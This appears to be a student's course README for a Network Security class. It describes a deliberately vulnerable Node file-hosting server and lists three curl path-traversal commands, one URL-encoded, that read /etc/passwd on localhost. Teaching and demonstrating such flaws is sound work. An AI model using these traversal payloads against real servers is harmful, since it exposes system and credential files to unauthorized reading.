 # A01:2021-Broken Access Control - CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')

The following codebase is a webserver(file hosting) built on Node that is vulnerable to **Path Traversal** attacks. Use the following commands for the attack:

```bash
curl --path-as-is "http://localhost:3000/../../../../../../../../../etc/passwd"

curl --path-as-is "http://localhost:3000/?file=/../../../../../../../../../etc/passwd"

curl --path-as-is "http://localhost:3000/?file=%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd"
```

## Student Details:

Name: Suhas K S

Roll No.: 181CO253

Reg No.: 181486

## Course Details:

Course: Network Security

Course Code: CS463

Course Instructor: Prof. Mahendra Pratap Singh
